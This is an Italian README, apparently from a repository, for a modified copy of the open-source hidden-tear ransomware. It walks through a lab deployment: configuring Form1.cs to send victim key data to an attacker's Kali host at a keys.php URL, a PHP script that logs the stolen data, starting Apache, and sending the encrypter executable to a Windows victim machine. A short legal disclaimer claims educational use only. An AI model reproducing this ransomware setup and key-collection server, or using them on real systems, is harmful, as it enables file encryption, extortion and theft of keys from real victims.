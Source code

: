 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di 
- due macchine virtuali: 
	- una con windows 10 che fungeva da vittima.
	- una con kali linux che faceva da attaccante.
- Il mio pc con visual studio installato. 

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* aggiungere l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php (file che verrà spiegato nello successivamente nella guida):
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription è stato corretto il problema del padding
* (opzionale) è possibile cambiare l'estensione dei file dopo la crittografia, nel mio caso sono settati a *.bloccato*, per farlo bisogna cambiare l'estensione sia nell'encrypter che nel decrypter.


**Nella macchina con kali linux**
* Nella cartella var/www/html creare un file data.txt e un file keys.php. Per farlo bisogna aprire un terminale nella cartella e lanciare:
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore settare l'accesso read and write al file data.txt da parte di www-data nella sezione group. Bisogna entrare nel file manager in modalità sudo, per entrarci ho eseguito:
```
sudo xdg-open .
```
* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine aprire un terminale nella stessa cartella e lanciare:
```
service apache2 start                                                                           
```

**Alla macchina 'vittima'** 

* Inviare i file *hidden-tear.exe* e *hidden-tear-decripter.exe* contenuti nella cartella bin/Debug con i rispettivi nomi

**Riferimento**

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.

Non mi assumo alcuna responsabilità per eventuali danni a persone, hardware o software, diretti o indiretti, che dovessero verificarsi come conseguenza dell’utilizzo dei miei progetti (inclusi, senza limitazioni, i danni all’integrità fisica e i danni per perdita o mancato guadagno, interruzione dell’attività, perdita di informazioni o altre perdite economiche).

